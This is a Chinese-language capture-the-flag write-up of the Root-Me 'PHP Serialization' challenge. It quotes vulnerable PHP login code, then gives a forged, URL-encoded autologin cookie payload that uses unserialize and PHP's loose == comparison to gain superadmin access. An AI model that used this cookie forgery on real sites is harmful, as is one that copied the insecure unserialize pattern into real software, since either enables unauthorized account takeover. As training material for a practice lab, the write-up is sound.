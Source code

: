 Root-Me [PHP Serialization](https://www.root-me.org/en/Challenges/Web-Server/PHP-Serialization)
===

簡易登入頁面，提供帳號 guest/guest。

## 解題關鍵
1. Serialization
2. PHP

## 提示訊息
```
Get an administrator access !
```

## 解題方法
這題有提供原始碼可以查看，以下為驗證帳號的部分，可以發現有弱點的部分在於 `autologin` 的部分，因為 `autologin` 的 Cookie 是可以偽造的。  

```PHP
if(!isset($_SESSION['login']) || !$_SESSION['login']) {
    $_SESSION['login'] = "";
    // form posted ?
    if($_POST['login'] && $_POST['password']){
        $data['login'] = $_POST['login'];
        $data['password'] = hash('sha256', $_POST['password']);
    }
    // autologin cookie ?
    else if($_COOKIE['autologin']){
        $data = unserialize($_COOKIE['autologin']);
        $autologin = "autologin";
    }

    // check password !
    if ($data['password'] == $auth[ $data['login'] ] ) {
        $_SESSION['login'] = $data['login'];

        // set cookie for autologin if requested
        if($_POST['autologin'] === "1"){
            setcookie('autologin', serialize($data));
        }
    }
    else {
        // error message
        $message = "Error : $autologin authentication failed !";
    }
}
```

原始碼繼續看下去，可以發現當 `SESSION['login']` 等於 `superadmin` 時會到達管理頁面，Flag 可能就藏在管理頁面，所以簡單的邏輯建立起來，創建偽造的 `autologin` Cookie 值來垂直提權。  

```php
// message ?
if(!empty($message))
    echo "<p><em>$message</em></p>";

// admin ?
if($_SESSION['login'] === "superadmin"){
    require_once('admin.inc.php');
}
// user ?
elseif (isset($_SESSION['login']) && $_SESSION['login'] !== ""){
    require_once('user.inc.php');
}
```

回到題目，嘗試登入 guest 帳號，並且勾選 `Autologin next time` 的選項，可以看到下圖送出三個參數。  

![](img/01.png)  

接著查看 `Cookie` 發現有個 `autologin` 的 Cookie 被建立了。

![](img/02.png)  

把參數取出，得到以下字串。  

```
a%3A2%3A%7Bs%3A5%3A%22login%22%3Bs%3A5%3A%22guest%22%3Bs%3A8%3A%22password%22%3Bs%3A64%3A%2284983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec%22%3B%7D
```

直覺得知已經經過 URLencode 了，所以透過[URLdecode工具](https://www.urldecoder.org)解碼得到。  

```
a:2:{s:5:"login";s:5:"guest";s:8:"password";s:64:"84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec";}
```

這邊嘗試將 `guest` 改成 `superadmin` 看看，並且要修改前面的 `s`，`s` 所代表的意思是，帶有幾個字元，如 `superadmin` 共有 10 個字元，所以改為以下的樣子。  

```
a:2:{s:5:"login";s:10:"superadmin";s:8:"password";s:64:"84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec";}
```

並且需要透過 URLencode 工具進行編碼，並且送出後毫無反應，經過一番嘗試之後，是要將 Cookie 中的 `PHPSESSID` 移除掉，接著重新整理，但是卻跳出了 `autologin authentication failed !`。  

重新審視原始碼的部分，如下方片段，可以看見關鍵的 `if ($data['password'] == $auth[ $data['login'] ] )`，這部分的 `$data` 來自序列化的 `password` 參數，接著往右看到 `$auth[$data['login']]`，猜測這邊是個字串比較，但使用了 `==`，弱型別的判斷，可控的部分為 `$data['password']`，如果透過序列化填入 `True` 應該就可以順利繞過。  

```PHP
// check password !
if ($data['password'] == $auth[ $data['login'] ] ) {
    $_SESSION['login'] = $data['login'];

    // set cookie for autologin if requested
    if($_POST['autologin'] === "1"){
        setcookie('autologin', serialize($data));
    }
}
else {
    // error message
    $message = "Error : $autologin authentication failed !";
}
```

所以 Payload 如下。  

```
a:2:{s:5:"login";s:10:"superadmin";s:8:"password";b:1;}
```

編碼後如下。  

```
a%3A2%3A%7Bs%3A5%3A%22login%22%3Bs%3A10%3A%22superadmin%22%3Bs%3A8%3A%22password%22%3Bb%3A1%3B%7D
```

解決該題（如果跑不出來，記得清除 `PHPSESSID`）。  

![](img/03.png)  

## Reference
https://www.neatstudio.com/show-161-1.shtml  


## 授權聲明
[![copyright © 2019 By MksYi](https://img.shields.io/badge/copyright%20©-%202019%20By%20MksYi-blue.svg)](https://mks.tw/)
[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)